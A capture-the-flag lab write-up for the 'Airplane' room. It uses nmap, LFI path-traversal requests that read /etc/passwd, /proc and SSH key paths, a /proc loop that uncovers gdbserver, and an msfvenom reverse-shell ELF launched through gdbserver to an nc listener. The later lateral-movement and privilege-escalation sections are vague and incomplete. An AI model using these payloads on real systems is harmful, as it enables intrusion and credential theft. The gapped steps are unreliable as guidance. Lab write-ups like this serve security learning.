# Airplane

This room teaches us the important penetration-testing techniques, including network enumeration, Local File Inclusion (LFI), Linux `/proc` enumeration, gdbserver exploitation, SUID privilege escalation, and sudo wildcard/path traversal.

Are you ready to fly?

The goal is to obtain both `user.txt` and `root.txt`.

we gonna use this steps :


## 1. Active Recon

scan ports by using nmap that are in range 1 upto 10000 by using this command:

```bash
nmap -sC -sV -T4 10.113.132.133 -oN initial -p1-10000
````

The `-oN initial` part saves the results to a file called `initial`.



 get this three tcp ports:

| Port   | Service                        |
| ------ | ------------------------------ |
| `22`   | SSH                            |
| `6048` | Unknown service                |
| `8000` |  web application |

 check that the web application has **LFI**.

**LFI (Local File Inclusion)** means the application can be tricked into reading files from the target machine. For example, we successfully read `/etc/passwd`.

---

## 2. set up `/etc/hosts`

Before browsing we have to tell the browser what airplane.thm mean.

So we add the target ip address for `airplane.thm` to `/etc/hosts`.

Run:

```bash
sudo nano /etc/hosts
```



interesting thing the server is telling us to go to airplane.thm:8000 (airplane.thm is the host, if we ask we need the host name its because the server may behave differently depending on the hostname)

i could then access:

```text
http://airplane.thm:8000
```


 look carfully on our url we have:

```text
http://airplane.thm:8000/?page=index.html
```

On this the important part is:

```text
?page=index.html
```

this means the website is receiving a value from us.


## 3. investigate Port 6048



I tested whether the parameter was vulnerable to path traversal:

```text
?page=../../../../etc/passwd
```

The server returned the contents of `/etc/passwd`, confirming a Local File Inclusion vulnerability.

The file expose interesting users including:

```text
carlos
hudson
```

here there are two users Carlos and Hudson but still we don't have a shell.


## 4. Test web app by using curl command

then test the web application:

```bash
curl -I http://airplane.thm:8000/
```



The application was reachable.

I also retrieved the main page:

```bash
curl -s "http://airplane.thm:8000/?page=index.html" | head -40
```



---

The application used a parameter called:

```text
?page=index.html
```

This was interesting because the application appeared to use the value of the parameter to determine which page/file should be loaded.

I tested different values.

I also filtered the output to identify users with interactive shells:

```bash
curl -s "http://airplane.thm:8000/?page=../../../../etc/passwd" | grep -E '/bin/(bash|sh)$'
```



The server returned the contents of `/etc/passwd`.

This confirmed that it is  a Local File Inclusion (LFI) vulnerability.


## 5. Exploring the Application

After confirming LFI, first checked the environment variables:

```bash
curl -s "http://airplane.thm:8000/?page=../../../../proc/self/environ" | tr '\0' '\n' | head -30
```



filter useful variables:

```bash
curl -s "http://airplane.thm:8000/?page=../../../../proc/self/environ" | tr '\0' '\n' | grep -E '^(PWD|HOME|USER|PATH)='
```


as we know line linux using /procs we can find the process so we change the URL to:

```text
http://airplane.thm:8000/?page=../../../../proc/self/cmdline
```

this tells us the process handling our web request and tell us the command used to start the process and again we will have a file named "cmdline".

```bash
curl -s "http://airplane.thm:8000/?page=../../../../proc/self/cmdline" | tr '\0' ' '
```



This helped to create a web application running as a process on the target machine.


## 6. Inspect the application files

the LFI allowed arbitrary local files to be read, I investigate files related to web application.

I checked the application source:

```bash
curl -s "http://airplane.thm:8000/?page=../../../../home/hudson/app.py"
```



I also checked:

```bash
curl -s "http://airplane.thm:8000/?page=../../../../home/hudson/app/app.py"
```



and the application's HTML template:

```bash
curl -s "http://airplane.thm:8000/?page=../../../../home/hudson/app/templates/airplane.html" | head -50
```



I also checked:

```text
/home/hudson/.ssh/id_rsa
/home/hudson/.ssh/config
/home/hudson/app/.env
/home/hudson/app/requirements.txt
```

For example:

```bash
curl -s "http://airplane.thm:8000/?page=../../../../home/hudson/.ssh/id_rsa"
```

These help me understand the target's filesystem and application structure.


## 7. check Port 6048

 Nmap scan identified:

```text
6048/tcp
```

but did not clearly identify the service.

I performed a more focused scan:

```bash
sudo nmap -sC -sV -p6048 MACHINE_IP
```



 test

```bash
sudo nmap -p6048 --script x11-access MACHINE_IP
```



and connected directly to the port:

```bash
nc -nv MACHINE_IP 6048
```






The service was still not immediately clear.

Because i had LFI, i use the vulnerability to investigate the Linux process information.


## 8. Using `/proc` to Identify the Service

Linux exposes information about running processes through the `/proc` filesystem.

I checked:

```text
/proc/<PID>/cmdline
/proc/<PID>/status
/proc/<PID>/fd
/proc/net/tcp
```

I first searched through process command lines.

The following loop was used to search PIDs:

```bash
for i in {1..1000}; do
    out=$(curl -s "http://airplane.thm:8000/?page=../../../../../proc/$i/cmdline" | tr '\0' ' ')
    if echo "$out" | grep -q "6048"; then
        echo "$i : $out"
    fi
done
```









It iterates through Process IDs (PIDs) 1 to 1000, leveraging the web application's LFI vulnerability to read `/proc/[PID]/cmdline`. By filtering the output for '6048', it identifies the exact PID and command running the service on port 6048—revealing that gdbserver is the underlying binary.

This tells us that port 6048 was being used by gdbserver this means i have to connect to the airplane process remotely (gdbserver : is a program that allows a debugger such as GDB to connect to another machine and control a program remotely).

I then examined the process status:

```bash
curl -s "http://airplane.thm:8000/?page=../../../../../proc/534/status" | grep -E '^(Name|Pid|Uid|Gid):'
```

The process information showed that the process was associated with the service listening on port 6048.


## 9. Confirming Port 6048 Using `/proc/net/tcp`

I also see:

```text
/proc/net/tcp
```

using:

```bash
curl -s "http://airplane.thm:8000/?page=../../../../../proc/net/tcp" | grep -i ':17A0'
```



The port appeared as:

```text
17A0
```

in hexadecimal.

Converting:

```text
0x17A0 = 6048
```


## 10. Identifying gdbserver



I continued examining the process command line:

```text
/proc/<PID>/cmdline
```







until I identified:

```text
gdbserver
```





The important discovery was:

```text
gdbserver
```

running on:

```text
6048
```

it is a key to obtain initial access.


## 11. Understanding the gdbserver Attack

gdbserver is normally used for remote debugging.

A debugger can connect to it and control a program running on the target.

In this machine, the service was exposed on the network:

```text
Target:6048
```

Because of this, it could be abused to execute a payload on the target.


## 12. Preparing the Payload

We need to find our kali vpn ip because we want the target to send us a response.

```bash
ip addr show tun0
```



I first verified that msfvenom was available.

then i generated a Linux x64 reverse-shell ELF payload:





```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=YOUR_TUN0_IP LPORT=4444 -f elf -o airplane_payload.elf
```






I verified the generated file:

```bash
file airplane_payload.elf
```





I also inspected the payload to make sure it contained the expected network configuration.


## 13. Starting the Listener

Before executing the payload, I started a Netcat listener on my Kali machine:

```bash
nc -lvnp 4444
```

The listener are waiting for the target to connect back:


## 14. Connecting to gdbserver

I started GDB:

```bash
gdb
```

Then connected to the remote gdbserver:

```text
(gdb) target extended-remote airplane.thm:6048
```

The target architecture was checked during the process.


## 15. Executing the Payload

After creatin remote GDB connection, i configured the payload and executed it through the remote debugging session.

The payload was an ELF reverse-shell executable:

```text
airplane_payload.elf
```
The gdbserver executed the payload, causing the target machine to initiate a connection back to my Netcat listener.


## 16. Obtaining the Reverse Shell

The listener received the incoming connection.

I then verified the account:

```bash
whoami
```

and:

```bash
id
```

The shell gave me access as:

```text
hudson
```










## 17. Lateral Movement

Then the target downloads the binary.elf.



By doing this we changed the user from hudson to Carlos, after we confirm that we get inside carlos we inspect carlos home and we found the user.txt file and we can see the txt inside and find the flag.

```bash
whoami
ls -la /home/carlos
cat /home/carlos/user.txt
```










## 18. Privilege Escalation

Next we need to have a root privileged to find the root flag

First we will check our current privilege by running "id" we care only about euid=1000(carlos) because this is the effective identity

We suspect that the file might be in the find program so we do

```bash
ls -l /usr/bin/find
```

We confirmed that this was a SUID program

```bash
ls -la /home/carlos/.gnupg
```

This will help us see if carlos have something interesting in his GPG configuration there was a private-key but its not usable so we generate an ssh key

```bash
ssh-keygen -t rsa
```

The file in which the key will be saved is

```text
/tmp/carlos_key
```

So now two files were created
/tmp/carlos_key
/tmp/carlos_key.pub
The private key or the first one proves that we are allowed to log in and the public or the second one is placed in the users authorized_keys file

```text
/tmp/carlos_key
/tmp/carlos_key.pub
```


## 19. Flags

## User Flag

**here we get user flag**

```text
user.txt
```



## Root Flag

Next let us see a root file to find the root flag.

```text
root.txt
```




# Conclusion

In this room i explore about a realistic attack chain against a misconfigured system. i started with active recon using Nmap, discovered the web application, identified an LFI vulnerability, used `/proc` enumeration to identify the unknown service on port 6048, discovered gdbserver, get an initial shell, moved to Carlos, found the user flag, and continue with privilege escalation toward root.
